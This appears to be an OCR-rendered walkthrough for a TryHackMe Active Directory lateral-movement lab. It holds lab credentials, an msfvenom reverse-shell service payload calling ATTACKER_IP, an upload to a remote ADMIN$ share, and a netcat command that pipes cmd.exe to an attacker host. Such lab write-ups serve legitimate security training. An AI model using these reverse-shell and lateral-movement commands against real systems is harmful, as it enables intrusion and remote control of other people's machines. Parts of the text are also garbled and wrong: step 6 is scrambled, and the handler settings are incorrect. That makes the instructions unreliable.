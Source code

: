 To complete this exercise and move laterally to THMIIS using the provided credentials, follow these steps:

1. Connect to THMJMP2 via SSH using the assigned credentials:
   ```bash
   ssh za\\\\\<AD Username\>@thmjmp2.za.tryhackme.com
   ```

2. Assume that you have captured administrative credentials:
   - User: ZA.TRYHACKME.COM\t1_leonard.summers
   - Password: EZpass4ever

3. Use `sc.exe` to create a reverse shell payload in the form of a service executable. This will prevent the payload from being killed by the service manager. Run the following command:
   ```bash
   msfvenom -p windows/shell/reverse_tcp -f exe-service LHOST=ATTACKER_IP LPORT=4444 -o myservice.exe
   ```

4. Upload the payload to the ADMIN\$ share of THMIIS using `smbclient` from your AttackBox:
   ```bash
   smbclient -c 'put myservice.exe' -U t1_leonard.summers -W ZA '//thmiis.za.tryhackme.com/admin\$/' EZpass4ever
   ```

5. Set up a listener on your Attacker Machine to receive the reverse shell. Use `msfconsole` and run the following commands:
   ```bash
   msfconsole
   use exploit/multi/handler
   set LHOST lateralmovement
   set RHOST 4444
   set payload windows/shell/reverse_tcp
   exploit
   ```

6. Since `sc.exe` doesn't allow specifying credentials in the command, use `runas` to spawn a new shell with t1_leonard.summers' access token. Runmand on the remote SSH connection: the following com
   ```bash
   runas /netonly /user:ZA.TRYHACKME.COM\t1_leonard.summers "c\tools\nc64.exe -e cmd.exe Attacker_IP 4443"
   ```

7. Start a NETCAT listener on your Attacker Machine:
   ```bash
   nc -nvlp 4443
   ```

8. After running the `runas` command, you should get a reverse connection inside NETCAT.

9. Proceed to create a new service remotely using `sc.exe` and associate it with the uploaded binary. Refer to the provided image for the exact command.

10. Finally, navigate to the leonard.summers user directory on THMIIS and find the flag.

Make sure to adapt the commands by replacing placeholders such as `AD Username`, `ATTACKER_IP`, and `lateralmovement` with the appropriate values.